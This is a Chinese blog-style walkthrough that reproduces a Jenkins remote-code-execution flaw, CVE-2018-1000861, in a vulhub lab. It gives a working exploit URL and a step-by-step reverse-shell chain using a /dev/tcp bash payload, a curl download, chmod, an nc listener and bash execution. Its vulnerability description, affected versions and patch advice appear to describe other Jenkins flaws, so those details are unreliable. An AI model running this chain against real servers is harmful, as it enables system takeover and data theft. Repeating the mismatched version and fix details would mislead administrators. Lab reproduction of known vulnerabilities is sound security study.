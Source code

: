 ```yaml
---
title: "Jenkins远程命令执行漏洞(CVE-2018-1000861)"
date: 2019-11-06T14:32:15+08:00
draft: false
tags: ['远程代码执行漏洞']
categories: ['漏洞复现']
---
```

最近在整理Jenkins相关漏洞,所以来复现下!!

<!--more-->


### 1. 漏洞描述
	Jenkins使用XStream库来序列化和反序列化XML。它的维护者最近发布了一个安全漏洞，任何能够向Jenkins提供XML并使用XStream的用户都可以使Java进程崩溃。Jenkins中，这通常适用于有权创建或配置项目（作业），视图或代理的用户。

### 2. 漏洞原理
	该漏洞存在于使用HTTP协议的双向通信通道的具体实现代码中，Jenkins利用此通道来接收命令，恶意攻击者可以构造恶意攻击参数远程执行命令，从而获取系统权限，造成数据泄露。

### 3. 影响范围
	Jenkins Version <= 2.56
	
	Jenkins LTS Version <= 2.46.1

### 4. 漏洞利用
环境搭建:

直接使用vulhub上的环境即可(徐安装好docker和docker-compose)

(1) 下载vulhub项目,然后进入到  vulhub/jenkins/CVE-2018-1000861目录下

(2)  执行命令:

```
docker-compose up -d
```
来启动环境
(3) 访问: [http://172.26.1.156:8080/](http://172.26.1.156:8080/)

![图片](https://uploader.shimo.im/f/FuGj0OkqoDIqYk4z.png!thumbnail)

漏洞复现:

1. 此漏洞是没有回显的,所以我们这里直接反弹shell:

此漏洞的POC(直接GET请求即可):

```
GET /securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22touch%20/tmp/CVE-2018-1000861_is_success%22.execute()}}
```
2. 我们这里采取下载文件的方法来反弹shell

 (1) 先在我们的服务器上防止一个文本,内容为:

```
bash -i >& /dev/tcp/172.26.1.156/9999 0>&1
```
 (2) 然后我们替换POC中执行命令的部分为下载文件的命令:
```
curl -o /tmp/1.sh http://172.26.1.156:8080/1.txt
```
替换后的POC:
```
http://172.26.1.129:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22curl+-o+/tmp/1.sh+http://172.26.1.156:8080/1.txt%22.execute()}}
```
 (3) 给予下载的脚本执行权限:
```
chmod 777 /tmp/1.sh
```
替换后的POC:
```
http://172.26.1.129:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22chmod+777+/tmp/1.sh%22.execute()}}
```
 (4) 然后在我们接收shell的机器上监听之前写的端口:
```
nc -lvvp 9999
```
 (5)  直接bash执行我们下载的脚本
```
bash /tmp/1.sh
```
替换后的POC:
```
http://172.26.1.129:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22bash+/tmp/1.sh%22.execute()}}
```
 (6) 回到我们监听端口的机器:
![图片](https://uploader.shimo.im/f/QRsn3axMoXox0OVa.png!thumbnail) 可以看到已经成功获取到了shell!

3. 这里提供一个GitHub上的利用脚本:

[https://github.com/orangetw/awesome-jenkins-rce-2019](https://github.com/orangetw/awesome-jenkins-rce-2019)

执行案例:

![图片](https://uploader.shimo.im/f/acYdWjpVrEM8SIjm.png!thumbnail)

### 5. 漏洞防御
1）由于漏洞危害较大（直接获取系统权限），且目前已有漏洞利用工具，Jenkins官方已修复上述漏洞，并将SignedObject添加到远程黑名单中。建议您尽快对照检查自己所用的Jenkins是否在受影响范围，如受影响，请及时进行升级操作。

a：Jenkins主版本用户需升级到2.58版本

b：Jenkins LTS 版本用户需升级到2.46.2版本

下载链接：[https://jenkins.io/download/](https://jenkins.io/download/)

2）与此同时，建议您针对您的Jenkins后台进行安全加固，在安全组设置仅允许指定的办公IP可以访问管理，禁止对所有非授权用户的访问。

### 6. Reference
[https://blog.csdn.net/JiangBuLiu/article/details/95487423](https://blog.csdn.net/JiangBuLiu/article/details/95487423)

[https://github.com/orangetw/awesome-jenkins-rce-2019](https://github.com/orangetw/awesome-jenkins-rce-2019)

